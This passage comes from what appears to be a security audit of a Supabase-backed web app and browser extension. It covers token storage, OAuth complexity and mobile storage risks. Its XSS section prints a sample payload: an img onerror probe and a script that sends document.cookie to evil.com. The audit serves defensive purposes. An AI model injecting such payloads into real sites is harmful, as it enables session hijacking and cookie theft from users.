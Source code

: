 **Current Storage**:
- Web App: `localStorage.getItem('supabase_session')` 
- Extension: `chrome.storage.local` (more secure but still accessible to extension)

**Vulnerabilities**:
- Web app tokens accessible via XSS attacks
- No token rotation or expiration enforcement
- Long-lived sessions (30 days) increase exposure window

### 3. Authentication Architecture Issues (MEDIUM RISK)

#### Google OAuth Complexity
**Location**: Multiple auth flows in both platforms
**Risk Level**: MEDIUM  
**Issue**: Unnecessary complexity maintaining both Google OAuth and Supabase refresh tokens

**Current Flow**:
1. User authenticates via Google OAuth
2. Supabase receives Google tokens
3. Supabase issues its own access/refresh tokens
4. Application stores both token sets

**Problems**:
- Dual token management increases attack surface
- Google token refresh adds complexity
- Inconsistent session management between platforms

### 4. Mobile Security Concerns (MEDIUM RISK)

#### Token Storage on Mobile
**Current**: Web app uses localStorage on mobile browsers
**Risk Level**: MEDIUM
**Issue**: Mobile browsers have different security models and storage persistence

**iOS/Android Considerations**:
- Mobile browsers may not persist localStorage reliably
- App switching can clear memory-based tokens
- No secure keychain/keystore integration for web apps

## Detailed Vulnerability Analysis

### XSS Attack Vectors

#### 1. Note Content Injection
**Attack Scenario**: Malicious user creates note with JavaScript payload
```html
<img src="x" onerror="alert('XSS')">
<script>document.location='http://evil.com/steal?cookie='+document.cookie</script>
```

**Impact**: 
- Session hijacking via cookie theft
- Credential harvesting
- Malicious actions on behalf of user

